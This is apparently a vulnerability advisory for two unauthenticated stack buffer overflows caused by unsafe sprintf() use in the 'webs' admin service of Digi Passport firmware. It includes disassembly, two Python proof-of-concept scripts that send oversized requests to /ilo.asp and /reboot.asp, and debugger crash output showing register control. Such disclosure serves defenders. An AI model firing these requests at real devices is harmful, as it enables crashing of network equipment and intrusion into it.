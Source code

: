 Vulnerability details
----
- Product: Digi Passport (Firmware 1.5.1,1 - 7/11/2021)
- Discovered by: Juan Manuel Fernández ([@TheXC3LL](https://twitter.com/TheXC3LL)) & Matt Johnson from MDSec

The vulnerabilities are present in the "webs" binary, which is responsible for the web administration service. Both share the same common pattern: the insecure use of sprintf() for string concatenation.


# Buffer Overflow (I) CVE-2022-26952

When an unauthenticated user attempts to access endpoints that require a valid session, the user is redirected to "authen.asp?page=" plus the endpoint (for example, /authen.asp?page=/ilo.asp).



```
addi    r0, r31, 0x8c {var_1b4}
mr      r3, r0 {var_1b4}
lis     r9, 0x1016
addi    r4, r9, 0x1210  {data_10161210, "authen.asp?page=%s"}
lwz     r5, 524(r31) {var_34_1}
bl      sprintf
addi    r0, r31, 0x8c {var_1b4}
lwz     r3, 504(r31) {var_48}
mr      r4, r0 {var_1b4}
bl      sub_100197c8
li      r0, 0x1
stw     r0, 548(r31) {var_1c}  {0x1}
b       0x1001d314
```


This concatenation is done via a sprintf() which does not take into account the original buffer size, so it is possible to get an out-of-bounds write if a long enough string is supplied. This can be achieved by adding a long parameter in the request to the endpoint (e.g., /ilo.asp?aaaa(...)aaaaaa).:

```
import socket


r9 = "BBBB"
padding1 = "C" * 72
frame = "XXXX"



poc = r9 + padding1 + frame 

base = "A" * 339 #"A" * 339


query = "GET /ilo.asp?"
query += base
query += poc
query += " HTTP/1.1\nHost: localhost"
query += "\r\n\r\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 80))
s.sendall(query)

```

In this way, it is possible to corrupt the stack:


```
Program received signal SIGSEGV, Segmentation fault. 
0x1001985c in ?? () 
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA 
──────────────────────────────────────[ REGISTERS ]──────────────────────────────────────
 R30x0  
*R40x10160aaa ◂— andis. r16, r3, 0x3a2f /* 'tp://' */
 R50x0  
*R60xfefefeff 
*R70x7f7f7f7f 
*R80x74 
*R90x42424242 ('BBBB') 
*R10  0xffffd57f ◂— 0x0
*R11  0x68 
*R12  0xfa53d00 ◂— b0xfa53d14 /* 'H' */ 
*R13  0x10219b78 ◂— 0x0
 R14  0x0  
 R15  0x0  
 R16  0x0  
 R17  0x0  
 R18  0x0  
 R19  0x0  
 R20  0x0  
 R21  0x0  
 R22  0x0  
 R23  0x0  
 R24  0x0  
 R25  0x0  
 R26  0x0  
*R27  0xff7fce60 —▸ 0xffffe744 —▸ 0xffffe85e ◂— 'usr/sbin/webs' 
*R28  0x102d5950 ◂— '/ilo.asp'  
*R29  0x102d1d40 ◂— cmpwi  cr6, r0, 0 /* 0x2f000000; '/' */  
*R30  0xfb1c73c ◂— 0x13ef18  
*R31  0xffffd200 —▸ 0xffffd230 —▸ 0xffffd470 ◂— 0x43434343 ('CCCC')
*SP0xffffd200 —▸ 0xffffd230 —▸ 0xffffd470 ◂— 0x43434343 ('CCCC') 
```


```
pwndbg> bt
#0  0x1001985c in ?? ()
#1  0x10019820 in ?? ()
#2  0x1001d2e4 in ?? ()
#3  0x58585858 in ?? ()
Backtrace stopped: previous frame inner to this frame (corrupt stack?)

```


# Buffer Overflow (II) CVE-2022-26953

Similarly for the "reboot.asp" endpoint. When the "mode=4" parameter is supplied, it displays an HTML where it includes the string supplied from the "page" parameter ("reboot.asp?mode=4&page=something"). This concatenation between the "page" parameter and the HTML is done with a sprintf() without prior size checking.

```
lwz     r3, 236(r31)
lis     r9, 0x1016
addi    r4, r9, 0x3588  {data_10163588, "page"}
lis     r9, 0x1016
addi    r5, r9, 0x357c  {data_1016357c, "login.asp"}
bl      sub_10019354
mr      r11, r3
addi    r0, r31, 0x10
mr      r3, r0
lis     r9, 0x1016
addi    r4, r9, 0x3f00  {data_10163f00, "HTTP is not available. Please, <…"}
mr      r5, r11
bl      sprintf
b       0x10024084
```

Because of this it is possible to write outside the buffer bounds:

```
import socket


base = "A" * 180
r9 = "BBBB"
padding1 = "A" * 36
frame = "CCCC"

poc = r9 + padding1 + frame 

query = "GET /reboot.asp?mode=4&page="
query += base
query += poc
query += " HTTP/1.1\nHost: localhost"
query += "\r\n\r\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 80))
s.sendall(query)
```
```
Program received signal SIGSEGV, Segmentation fault.      
0x10019f50 in ?? ()       
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA 
──────────────────────────────────────[ REGISTERS ]───────────────────────────────────────
*R3   0x102d6128 ◂— addis  r3, r20, 0x723e /* 0x3c74723e; '<tr><td bgcolor=#000084 height=22><font color=#FFFFFF><b>' */
*R4   0x102d6101 ◂— 0x746572      
*R5   0x1 
*R6   0xfefefeff  
*R7   0x7f7f7f7f  
*R8   0x800000    
*R9   0x42424242 ('BBBB') 
*R10  0x2 
*R11  0xffffcbb0 —▸ 0xffffcbe0 —▸ 0xffffcc90 —▸ 0xffffccd0 —▸ 0xffffcde0 ◂— ...   
*R12  0xfa543b4 ◂— b      0xfa543c8 /* 'H' */     
*R13  0x10219b78 ◂— 0x0   
 R14  0x0 
 R15  0x0 
 R16  0x0 
 R17  0x0 
 R18  0x0 
 R19  0x0 
 R20  0x0 
 R21  0x0
 R22  0x0
 R23  0x0
 R24  0x0
 R25  0x0
 R26  0x0
*R27  0xff7fce60 —▸ 0xffffe744 —▸ 0xffffe85e ◂— 'usr/sbin/webs'       
*R28  0x102d4b50 ◂— '/reboot.asp' 
*R29  0x102d60c8 ◂— addis  r3, r20, 0x723e /* 0x3c74723e; '<tr><td bgcolor=#000084 height=22><font color=#FFFFFF><b>' */
*R30  0xfb1c73c ◂— 0x13ef18       
*R31  0xffffcbb0 —▸ 0xffffcbe0 —▸ 0xffffcc90 —▸ 0xffffccd0 —▸ 0xffffcde0 ◂— ...   
*SP   0xffffcbb0 —▸ 0xffffcbe0 —▸ 0xffffcc90 —▸ 0xffffccd0 —▸ 0xffffcde0 ◂— ...   
*PC   0x10019f50 ◂— lwz    r0, 0x4d4(r9)  
```


```
pwndbg> bt
#0  0x10019f50 in ?? ()
#1  0x10019f38 in ?? ()
#2  0x10019ec4 in ?? ()
#3  0x1005dcc4 in ?? ()
#4  0x100240a0 in ?? ()
#5  0x42424242 in ?? ()
```
